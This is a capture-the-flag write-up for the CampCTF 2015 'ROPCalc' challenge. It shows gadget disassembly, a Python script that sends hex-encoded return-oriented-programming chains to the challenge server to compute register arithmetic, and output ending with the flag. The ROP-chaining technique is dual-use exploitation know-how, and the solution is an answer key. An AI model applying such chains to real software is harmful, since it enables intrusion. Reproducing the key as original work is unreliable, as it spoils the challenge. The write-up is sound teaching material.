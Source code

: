 ```yaml
---
layout: post
title: "CampCTF 2015 ROPCalc"
date: 2015-08-19 20:59:16 -0400
author: [barrebas]
comments: true
categories: [campctf]
---
```


### Solved by barrebas

How could I resist a challenge called ropcalc? We're given the python server and a binary. We're supposed to write a ROP chain to satisfy certain conditions. The server.py will then pass random values for the registers to the binary, along with the ROP chain we provide. After execution of the ROP chain, it will check if the ROP chain has calculated the right answer. Pretty nifty, if you ask me!

The binary itself is actually packed with everything we need:

```
0000000000400b40 <sub_rax_rbx>:
  400b40:   sub    rax,rbx
  400b43:   ret    
  400b44:   data32 data32 nop WORD PTR cs:[rax+rax*1+0x0]

0000000000400b50 <imul_rax_rbx>:
  400b50:   imul   rax,rbx
  400b54:   ret    
  400b55:   data32 nop WORD PTR cs:[rax+rax*1+0x0]

0000000000400b60 <xchg_rax_rbx>:
  400b60:   xchg   rbx,rax
  400b62:   ret    
  400b63:   data32 data32 data32 nop WORD PTR cs:[rax+rax*1+0x0]
```

The expressions we need to satisfy look like this: `$rax + $rbx + 1337 (store result in rax)`

I'll just give the final exploit as it's not that difficult:

```python
#!/usr/bin/python
import struct, time
from socket import *

def q(x):
    return struct.pack("<Q", x)

def readtil(delim):
  buf = b''
  while not delim in buf:
      buf += s.recv(1)
  return buf

def toHex(x):
    payload = ""
    for i in x:
        payload += '%02x' % ord(i)
    return payload

  
def pwn():
    global s
    s = socket(AF_INET, SOCK_STREAM)
    s.connect(('challs.campctf.ccc.ac', 10109))
    
    readtil('line:')
    rop1 = ""
    rop1 += q(0x00400b30)
    rop1 += q(0x004046ab) # ret
    s.send(toHex(rop1)+'\n')
    
    print readtil('line:')
    
    rop2 = ""
    rop2 += q(0x400900) # pop_rcx
    rop2 += q(1337)
    rop2 += q(0x400b80) # add rax, rcx
    rop2 += q(0x400b30) # add rax, rbx
    rop2 += q(0x4046ab) # ret
    
    s.send(toHex(rop2)+'\n')
    
    print readtil('line:')
    
    rop3 = ""
    rop3 += q(0x400b50)
    rop3 += q(0x4046ab)
    
    s.send(toHex(rop3)+'\n')
    
    print readtil('line:')
    
    rop4 = ""
    rop4 += q(0x400900) # pop_rcx
    rop4 += q(31337)
    rop4 += q(0x400f90) 
    rop4 += q(0x400b50)
    rop4 += q(0x4046ab)
    
    s.send(toHex(rop4)+'\n')
    
    # $rcx + 23 * $rax + $rbx - 42 * ($rcx - 5 * $rdx - $rdi * $rsi) - $r8 + 2015
    rop5 = ""
    rop5 += q(0x400a20) # pop r10
    rop5 += q(23)
    rop5 += q(0x400d80) # imul rax, r10
    rop5 += q(0x400b80) # add rax, rcx
    rop5 += q(0x400b30) # add rax, rbx
    rop5 += q(0x400cd0) # sub rax, r8
    rop5 += q(0x400a20) # pop r10
    rop5 += q(2015)
    rop5 += q(0x400d60) # add rax, r10
    rop5 += q(0x4020e0) # imul rdi, rsi
    rop5 += q(0x4009c0) # pop r8
    rop5 += q(5)
    rop5 += q(0x401910) # imul rdx, r8
    rop5 += q(0x4018a0) # add rdx, rdi
    rop5 += q(0x401400) # sub rcx, rdx
    rop5 += q(0x4009c0) # pop r8
    rop5 += q(42)
    rop5 += q(0x401500) # imul rcx, r8
    rop5 += q(0x400b90) # sub rax, rcx
    rop5 += q(0x4046ab)
    
    s.send(toHex(rop5)+'\n')
    
    import telnetlib
    t = telnetlib.Telnet()
    t.sock = s
    t.interact()
pwn()
```

And in action:


```
bas@tritonal:~/bin/ccc/ropc$ python poc3.py 
 Correct!
--------------------------------------------------------------------------------
Level [2/5]
Create a ROP chain that calculates: $rax + $rbx + 1337 (store result in rax)
Enter your solution as a single hex encoded line:
 Correct!
--------------------------------------------------------------------------------
Level [3/5]
Create a ROP chain that calculates: $rax * $rbx (store result in rax)
Enter your solution as a single hex encoded line:
 Correct!
--------------------------------------------------------------------------------
Level [4/5]
Create a ROP chain that calculates: $rax * (31337 + $rbx) (store result in rax)
Enter your solution as a single hex encoded line:
 Correct!
--------------------------------------------------------------------------------
Level [5/5]
Create a ROP chain that calculates: $rcx + 23 * $rax + $rbx - 42 * ($rcx - 5 * $rdx - $rdi * $rsi) - $r8 + 2015 (store result in rax)
Enter your solution as a single hex encoded line: Correct!
--------------------------------------------------------------------------------
The flag is: CAMP15_c0342e0be22dc032de05aa637c8ee8a3

*** Connection closed by remote host ***
```

